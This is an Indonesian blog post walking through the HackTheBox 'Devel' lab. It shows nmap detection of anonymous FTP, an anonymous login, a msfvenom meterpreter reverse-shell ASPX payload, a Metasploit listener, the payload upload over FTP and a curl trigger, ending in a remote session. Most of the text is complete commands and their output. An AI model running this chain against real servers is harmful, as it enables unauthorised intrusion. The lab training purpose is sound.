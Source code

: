 ```yaml
---
featured_image: "/uploads/justakazh/ftp.jpg"
author_description: Aku nulis karena aku pelupa
author_avatar: "/uploads/justakazh/1656477958868.jpeg"
author_facebook: https://facebook.com
author_twitter: https://twitter.com
author_instagram: https://instagram.com
author_donation: paypal / saweria / buymecoffe / etc
author_web: https://blog.hackstreet.id
title: FTP Anonymous Login to Meterpreter
date: 2023-01-02T00:00:00+07:00
author: Justakazh
tags:
- metasploit
- msf
- ftp
categories: ''

---
```

## Introduction

pada tulisan kali ini kita akan membahas tentang kerentanan pada FTP yaitu anonymous login. goals dari tulisan kali ini kita dapat mengetahui anonymous login pada FTP metode untuk mengambil alih server melalui anonymous login pada FTP.

Tulisan ini saya adaptasi dari HackTheBox tepatnya pada mesin Devel. kita bisa mengaktifkan mesin tersebut untuk melakukan demostrasi kerentanan yang kita bahas kali ini.

## Anonymous FTP

Anonymous FTP merupakan sebuah metode untuk memberi user akses ke file sehingga user tidak perlu mengidentifikasi diri mereka ke server. kita dapat memanfaatkan ini untuk mendapatkan akses pada server, akan tetapi tidak semua anonymous user dapat melakukannya ini dikarenakan konfigurasi dari server tersebut tidak mengizinkan kita untuk melakukan action seperti upload file. misalnya pada vsftp, konfigurasi  
`anon_upload_enable` pada /etc/vsftpd/vsftpd.con harus memiliki value `YES` untuk mengizinkan user melakukan upload file.


## Identification
kita dapat menggunakan nmap untuk melakukan identifikasi terhadap FTP yang mengizinkan anonymous user, sebelumnya kita harus pastikan terlebih dahulu port 21/FTP open
```bash 
┌──(punktester㉿kali)-[~]
└─$ sudo nmap -p21 -sS 10.10.10.5 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-02 17:12 WIB
Nmap scan report for 10.10.10.5
Host is up (0.37s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

setelah dipastikan bahwa port 21/FTP open, kita dapat menggunakan nmap script untuk melakukan pengecheckan secara otomatis 

- https://nmap.org/nsedoc/scripts/ftp-anon.html

``` bash 
┌──(punktester㉿kali)-[~]
└─$ sudo nmap -p21 -sS --script=ftp-anon 10.10.10.5
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-02 17:11 WIB
Nmap scan report for 10.10.10.5
Host is up (0.27s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png

Nmap done: 1 IP address (1 host up) scanned in 3.67 seconds
zsh: segmentation fault  sudo nmap -p21 -sS --script=ftp-anon 10.10.10.5
```

`ftp-anon: Anonymous FTP login allowed (FTP code 230)` ini menunjukan bahwa server tersebut mengizinkan Anonymous FTP login. selanjutnya mari kita coba untuk login pada FTP tersebut
Name: `anonymous`
Password:: `<skip / press enter>`
``` bash 
┌──(punktester㉿kali)-[~]
└─$ ftp 10.10.10.5                              
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:punktester): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> 
```
`230 User logged in.` kita berhasil login sebagai anonymous user. dapat dilihat pada `Remote system type is Windows_NT.` server tersebut menggunakan sistem operasi windows, selanjutnya kita akan menyiapkan payload untuk melakukan reverse shell (Meterpreter).

## Meterpreter
pada kasus kali ini server tersebut memiliki port 80 yang dimana port tersebut merupakan http/web server.  kita dapat membuat sebuah payload menggunakan `msfvenom` untuk kita kirimkan dan kita jalankan pada server tersebut, kita dapat menggunakan perintah berikut ini
``` bash 
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.2 lport=1337 -f aspx > exploit.aspx
```
selanjutnya kita akan membuat listener dari metasploit, kita dapat mengetikan perintah 

```bash 
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.2
set lport 1337
run
```
tahap terakhir, kita dapat mengirimpakn `exploit.aspx` yang telah kita buat pada root directory web server tersebut menggunakan FTP
```bash 
ftp> put exploit.aspx
local: exploit.aspx remote: exploit.aspx
229 Entering Extended Passive Mode (|||49164|)
125 Data connection already open; Transfer starting.
100% |************************************************************************|  2896       55.23 MiB/s    --:-- ETA
226 Transfer complete.
2896 bytes sent in 00:00 (10.32 KiB/s)
ftp> 
```
selanjutnya mari kita trigger payload tersebut dengan mengakses file exploit.aspx dari web browser / curl
```bash
curl http://10.10.10.5/exploit.aspx
```
``` bash 
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > 
msf6 exploit(multi/handler) > set lhost 10.10.14.2
lhost => 10.10.14.2
msf6 exploit(multi/handler) > 
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.2:1337 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.2:1337 -> 10.10.10.5:49166 ) at 2023-01-02 17:32:52 +0700

meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

dan kita berhasil mendapatkan akses server tersebut.